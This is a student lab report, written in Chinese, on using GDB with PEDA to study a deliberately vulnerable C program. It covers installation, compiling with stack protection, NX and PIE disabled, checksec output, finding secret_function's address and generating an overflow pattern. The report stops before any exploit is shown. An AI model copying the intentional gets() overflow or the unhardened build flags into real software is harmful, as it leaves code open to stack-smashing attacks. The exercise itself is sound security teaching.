# 0x07 调试应用的高级方法
姓名：李俊豪
学号：202312063053

---

## 实验目标

- 熟练使用GDB与PEDA插件调试二进制程序
- 掌握使用pwntools编写脚本实现漏洞利用的方法
- 学习在有源码和无源码情况下进行程序分析的不同方法
- 尝试逆向分析未知二进制程序并发现漏洞

## 实验环境

- 操作系统：Kali Linux或Ubuntu
- 工具：GDB (GNU Debugger)、PEDA、Python、pwntools
- 编译器：GCC

## 实验一：使用PEDA加强GDB调试

在之前的实验中，我们学习了一些gdb的基本操作，而在这个实验中，我们将学习如何使用PEDA插件增强GDB的调试功能，分析程序的内存布局和执行流程。

### 安装GDB与PEDA

GDB是GNU调试器，而PEDA (Python Exploit Development Assistance for GDB) 是一个增强GDB功能的Python插件，特别适合用于漏洞利用开发和逆向工程。

1. 安装GDB：
```bash
sudo apt-get update
sudo apt-get install gdb
```

2. 安装PEDA：
```bash
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/Desktop/IOT/0x07/peda-master/peda.py" >> ~/.gdbinit
```
（这里我选择的是在主机中下载压缩包拖拽到桌面上）


然后出现了一个报错，GDB 内置的 Python 环境在较新的 Kali Linux 中有一些特殊机制，它在解析 six.moves 这种虚拟/动态模块时经常会出现找不到的问题。


于是寻找**解决办法：**
1. 将 six.py 单独下载到 peda 目录中
```bash
cd ~/Desktop/IOT/0x07/peda-master
wget https://raw.githubusercontent.com/benjaminp/six/master/six.py
```

2. 用新规则彻底覆盖 ~/.gdbinit
```bash
cat << 'EOF' > ~/.gdbinit
python
import sys
sys.path.insert(0, '/home/virtual/Desktop/IOT/0x07/peda-master')
import six
end
source ~/Desktop/IOT/0x07/peda-master/peda.py
EOF
```

3. 验证安装：
```bash
gdb -q
```

如果成功安装PEDA，将会看到PEDA的彩色界面和提示信息。



#### PEDA的主要特性

PEDA为GDB添加了许多有用的功能：
- 彩色输出，让调试信息更易读
- 自动显示寄存器信息
- 增强的内存可视化（hexdump、搜索等）
- 智能化的反汇编显示
- 模式生成和搜索功能，用于缓冲区溢出研究
- 跟踪机制，便于执行流程分析
- 内存中的字符串搜索功能
- 简化的堆栈分析

### 步骤1：创建测试程序

创建一个名为`vuln.c`的文件，内容如下：

```c
#include <stdio.h>
#include <string.h>

void secret_function() {
    printf("Congratulations! You've found the secret function!\n");
}

void echo_input() {
    char buffer[64];
    printf("Enter some text: ");
    gets(buffer);  // 不安全的函数，存在栈溢出风险
    printf("You entered: %s\n", buffer);
}

int main() {
    printf("Welcome to the vulnerable program!\n");
    echo_input();
    printf("Program execution completed normally.\n");
    return 0;
}
```

这个程序包含以下关键部分：
- `secret_function()` 函数：打印一个模拟的flag，这是我们的目标函数
- `echo_input()` 函数：包含栈溢出漏洞，使用了不安全的`gets()`函数
- `main()` 函数：调用`echo_input()`函数

### 步骤2：编译程序

为了方便调试和演示，我们禁用一些保护机制：

```bash
gcc -g -fno-stack-protector -z execstack -no-pie -Wno-implicit-function-declaration -Wno-deprecated-declarations vuln.c -o vuln
```


参数说明：
- `-g`: 生成调试信息，用于GDB调试时显示源代码和变量名
- `-fno-stack-protector`: 禁用栈保护机制，使栈溢出攻击更容易实现（在实际生产环境中不应禁用）
- `-z execstack`: 允许栈可执行，使得注入到栈上的代码可以被执行（同样在生产环境中不应启用）
- `-no-pie`: 禁用位置无关代码，使函数地址固定，便于我们在攻击中直接使用函数的绝对地址
- `-Wno-implicit-function-declaration`: 禁止编译器对隐式函数声明发出警告，因为我们使用了未声明的gets函数
- `-Wno-deprecated-declarations`: 禁止编译器对使用已弃用函数的警告，gets函数因安全问题已被弃用


### 步骤3：使用PEDA进行基本调试

1. 启动带PEDA的GDB：
```bash
gdb -q ./vuln
```

2. 查看程序信息：
```bash
gdb-peda$ checksec
```
   
   PEDA的`checksec`命令会显示程序的安全保护机制，如PIE、RELRO、栈保护等。
   

| 保护机制    | 状态     | 说明                                                                   |
| ----------- | -------- | ---------------------------------------------------------------------- |
| **CANARY**  | disabled | **栈溢出保护未启用**（没有 Stack Canary，容易被 buffer overflow 攻击） |
| **FORTIFY** | disabled | **编译时函数强化保护未启用**（比如对 `strcpy` 等函数的参数检查）       |
| **NX**      | disabled | **非可执行栈未启用**（栈是可执行的，可以直接执行 shellcode）           |
| **PIE**     | disabled | **位置无关执行未启用**（程序的加载地址是固定的，容易被利用）           |
| **RELRO**   | Partial  | **部分只读重定位表保护**（`.got` 表部分保护，仍可能被利用）            |

3. 查看函数列表：
```bash
gdb-peda$ info functions


All defined functions:

File vuln.c:
8:      void echo_input();            #  echo_input函数在vuln.c的第8行定义
15:     int main();                   #  main函数在vuln.c的第15行定义
4:      void secret_function();       #  secret_function函数在vuln.c的第4行定义
# 这些是我们在vuln.c源文件中编写的函数，编译器为它们生成了完整的调试信息，因为我们在编译时使用了-g标志。
Non-debugging symbols:
0x0000000000401000  _init                     #  程序初始化函数
0x0000000000401060  puts@plt                  #  标准库函数puts的PLT条目
0x0000000000401070  printf@plt                #  标准库函数printf的PLT条目
0x0000000000401080  gets@plt                  #  标准库函数gets的PLT条目
0x0000000000401090  _start                    #  程序入口点
0x00000000004010c0  _dl_relocate_static_pie   #  动态链接器相关函数
0x00000000004010d0  deregister_tm_clones      #  线程局部存储相关函数
0x0000000000401100  register_tm_clones        #  线程局部存储相关函数
0x0000000000401140  __do_global_dtors_aux     #  全局析构函数辅助函数
0x0000000000401170  frame_dummy               #  栈帧辅助函数
0x0000000000401218  _fini                     #  程序终止函数
```


4. 查看`secret_function`的地址：
```bash
gdb-peda$ p secret_function
$1 = {void ()} 0x401146 <secret_function>
gdb-peda$ 
$2 = {void ()} 0x401146 <secret_function>

```

记下该地址，稍后会用到。

5. 设置断点并运行程序：
```bash
gdb-peda$ break main
gdb-peda$ run
```
**peda：**


**传统gdb：**


在这里我们可以明显的感觉到`peda`与普通gdb的差异，这里进行run后输出了一串内容，包括了寄存器区、代码区、栈区的当前情况，效果等同甚至明显优于在原`gdb`中使用`info registers`查看寄存器内容的操作

6. 使用PEDA命令查看内存和寄存器：
```bash
gdb-peda$ aslr off    # 禁用地址空间布局随机化（仅用于调试）
gdb-peda$ stack       # 查看栈内容
gdb-peda$ next        # 单步执行，不进入函数
gdb-peda$ step        # 单步执行，进入函数
```



```bash
0000| 0x7fffffffdc10 --> 0x1 
0008| 0x7fffffffdc18 --> 0x7ffff7c29f68 (mov    edi,eax)
0016| 0x7fffffffdc20 --> 0x0 
0024| 0x7fffffffdc28 --> 0x4011a7 (<main>:      push   rbp)
0032| 0x7fffffffdc30 --> 0x1ffffdd10 
0040| 0x7fffffffdc38 --> 0x7fffffffdd28 --> 0x7fffffffe0bf ("/home/virtual/Desktop/IOT/0x07/vuln")
0048| 0x7fffffffdc40 --> 0x7fffffffdd28 --> 0x7fffffffe0bf ("/home/virtual/Desktop/IOT/0x07/vuln")
0056| 0x7fffffffdc48 --> 0x1798acd5c17545a0 
gdb-peda$  next 
Welcome to the vulnerable program!
[----------------------------------registers-----------------------------------]
RAX: 0x23 ('#')
RBX: 0x7fffffffdd28 --> 0x7fffffffe0bf ("/home/virtual/Desktop/IOT/0x07/vuln")
RCX: 0x7ffff7e17790 --> 0x0 
RDX: 0x7ffff7e17790 --> 0x0 
RSI: 0x405310 ("Welcome to the vulnerable program!\n")
RDI: 0x0 
RBP: 0x7fffffffdc10 --> 0x1 
RSP: 0x7fffffffdc10 --> 0x1 
RIP: 0x4011ba (<main+19>:       mov    eax,0x0)
R8 : 0x0 
R9 : 0x0 
R10: 0x0 
R11: 0x202 
R12: 0x0 
R13: 0x7fffffffdd38 --> 0x7fffffffe0e3 ("COLORFGBG=0;15")
R14: 0x7ffff7ffd000 --> 0x7ffff7ffe2f0 --> 0x0 
R15: 0x403e00 --> 0x401110 (<__do_global_dtors_aux>:    endbr64)
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4011ab <main+4>:   lea    rax,[rip+0xeae]        # 0x402060
   0x4011b2 <main+11>:  mov    rdi,rax
   0x4011b5 <main+14>:  call   0x401030 <puts@plt>
=> 0x4011ba <main+19>:  mov    eax,0x0
   0x4011bf <main+24>:  call   0x40115c <echo_input>
   0x4011c4 <main+29>:  lea    rax,[rip+0xebd]        # 0x402088
   0x4011cb <main+36>:  mov    rdi,rax
   0x4011ce <main+39>:  call   0x401030 <puts@plt>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdc10 --> 0x1 
0008| 0x7fffffffdc18 --> 0x7ffff7c29f68 (mov    edi,eax)
0016| 0x7fffffffdc20 --> 0x0 
0024| 0x7fffffffdc28 --> 0x4011a7 (<main>:      push   rbp)
0032| 0x7fffffffdc30 --> 0x1ffffdd10 
0040| 0x7fffffffdc38 --> 0x7fffffffdd28 --> 0x7fffffffe0bf ("/home/virtual/Desktop/IOT/0x07/vuln")
0048| 0x7fffffffdc40 --> 0x7fffffffdd28 --> 0x7fffffffe0bf ("/home/virtual/Desktop/IOT/0x07/vuln")
0056| 0x7fffffffdc48 --> 0x1798acd5c17545a0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
17          echo_input();
gdb-peda$ step

[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x7fffffffdd28 --> 0x7fffffffe0bf ("/home/virtual/Desktop/IOT/0x07/vuln")
RCX: 0x7ffff7e17790 --> 0x0 
RDX: 0x7ffff7e17790 --> 0x0 
RSI: 0x405310 ("Welcome to the vulnerable program!\n")
RDI: 0x0 
RBP: 0x7fffffffdc00 --> 0x7fffffffdc10 --> 0x1 
RSP: 0x7fffffffdbc0 --> 0x7ffff7e165c0 --> 0xfbad2a84 
RIP: 0x401164 (<echo_input+8>:  lea    rax,[rip+0xed0]        # 0x40203b)
R8 : 0x0 
R9 : 0x0 
R10: 0x0 
R11: 0x202 
R12: 0x0 
R13: 0x7fffffffdd38 --> 0x7fffffffe0e3 ("COLORFGBG=0;15")
R14: 0x7ffff7ffd000 --> 0x7ffff7ffe2f0 --> 0x0 
R15: 0x403e00 --> 0x401110 (<__do_global_dtors_aux>:    endbr64)
EFLAGS: 0x206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40115c <echo_input>:       push   rbp
   0x40115d <echo_input+1>:     mov    rbp,rsp
   0x401160 <echo_input+4>:     sub    rsp,0x40
=> 0x401164 <echo_input+8>:     lea    rax,[rip+0xed0]        # 0x40203b
   0x40116b <echo_input+15>:    mov    rdi,rax
   0x40116e <echo_input+18>:    mov    eax,0x0
   0x401173 <echo_input+23>:    call   0x401040 <printf@plt>
   0x401178 <echo_input+28>:    lea    rax,[rbp-0x40]
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdbc0 --> 0x7ffff7e165c0 --> 0xfbad2a84 
0008| 0x7fffffffdbc8 --> 0x7ffff7c8104a (<puts+490>:    cmp    eax,0xffffffff)
0016| 0x7fffffffdbd0 --> 0x0 
0024| 0x7fffffffdbd8 --> 0x0 
0032| 0x7fffffffdbe0 --> 0x7fffffffdd28 --> 0x7fffffffe0bf ("/home/virtual/Desktop/IOT/0x07/vuln")
0040| 0x7fffffffdbe8 --> 0x7fffffffdc10 --> 0x1 
0048| 0x7fffffffdbf0 --> 0x0 
0056| 0x7fffffffdbf8 --> 0x7fffffffdd38 --> 0x7fffffffe0e3 ("COLORFGBG=0;15")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
echo_input () at vuln.c:10
10          printf("Enter some text: ");

```

7. 当程序执行到`echo_input`函数时，查看栈布局：
```bash
gdb-peda$ stack 20    # 查看更多栈内容

0000| 0x7fffffffdbc0 --> 0x7ffff7e165c0 --> 0xfbad2a84 
0008| 0x7fffffffdbc8 --> 0x7ffff7c8104a (<puts+490>:    cmp    eax,0xffffffff)
0016| 0x7fffffffdbd0 --> 0x0 
0024| 0x7fffffffdbd8 --> 0x0 
0032| 0x7fffffffdbe0 --> 0x7fffffffdd28 --> 0x7fffffffe0bf ("/home/virtual/Desktop/IOT/0x07/vuln")
0040| 0x7fffffffdbe8 --> 0x7fffffffdc10 --> 0x1 
0048| 0x7fffffffdbf0 --> 0x0 
0056| 0x7fffffffdbf8 --> 0x7fffffffdd38 --> 0x7fffffffe0e3 ("COLORFGBG=0;15")
0064| 0x7fffffffdc00 --> 0x7fffffffdc10 --> 0x1 
0072| 0x7fffffffdc08 --> 0x4011c4 (<main+29>:   lea    rax,[rip+0xebd]        # 0x402088)
0080| 0x7fffffffdc10 --> 0x1 
0088| 0x7fffffffdc18 --> 0x7ffff7c29f68 (mov    edi,eax)
0096| 0x7fffffffdc20 --> 0x0 
0104| 0x7fffffffdc28 --> 0x4011a7 (<main>:      push   rbp)
0112| 0x7fffffffdc30 --> 0x1ffffdd10 
0120| 0x7fffffffdc38 --> 0x7fffffffdd28 --> 0x7fffffffe0bf ("/home/virtual/Desktop/IOT/0x07/vuln")
0128| 0x7fffffffdc40 --> 0x7fffffffdd28 --> 0x7fffffffe0bf ("/home/virtual/Desktop/IOT/0x07/vuln")
0136| 0x7fffffffdc48 --> 0x1798acd5c17545a0 
0144| 0x7fffffffdc50 --> 0x0 
0152| 0x7fffffffdc58 --> 0x7fffffffdd38 --> 0x7fffffffe0e3 ("COLORFGBG=0;15")
```

8. 查看内存中的字符串：
```bash
gdb-peda$ find "/bin/sh"    # 查找特定字符串
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc.so.6 : 0x7ffff7da7e3c --> 0x68732f6e69622f ('/bin/sh')


gdb-peda$ hexdump $rsp      # 显示栈顶的十六进制内容
0x00007fffffffdbc0 : c0 65 e1 f7 ff 7f 00 00 4a 10 c8 f7 ff 7f 00 00   .e......J.......

```

### 步骤4：使用PEDA分析栈溢出

1. 在`gets`函数之后设置断点：
```bash
gdb-peda$ disas echo_input
gdb-peda$ break *echo_input+X    # X是gets调用后的地址偏移
gdb-peda$ run
```

2. 当程序等待输入时，提供一个特殊模式的输入：
```bash
gdb-peda$ pattern create 100     # 创建100字节
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'

```

3. 复制生成的模式并粘贴到程序的输入中。
